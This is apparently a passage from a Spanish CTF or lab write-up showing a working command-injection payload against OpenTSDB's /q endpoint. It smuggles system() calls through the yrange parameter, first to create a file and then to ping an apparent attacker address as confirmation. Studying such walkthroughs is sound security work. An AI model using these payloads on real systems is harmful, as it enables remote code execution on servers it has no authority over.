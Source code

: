![](2022-06-12-11-45-59.png)

Disponemos de un PoC

```bash
Bypass Payload:

[33:system('touch/tmp/poc.txt')]

PoC:

http://opentsdbhost.local/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('touch/tmp/poc.txt')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```

Vamos a copiarnos apartir del q y le vamos a cambiar el poc.txt , vamos a cambiarlo por un ping a nuestro equipo 10.10.14.48

```bash
#importante, hay que meterle los datos urlencode por lo que los espacios son un %20 o un +
q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('ping+-c+1+10.10.14.48')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```

Nos vamos a poner en escucha con ctpdump
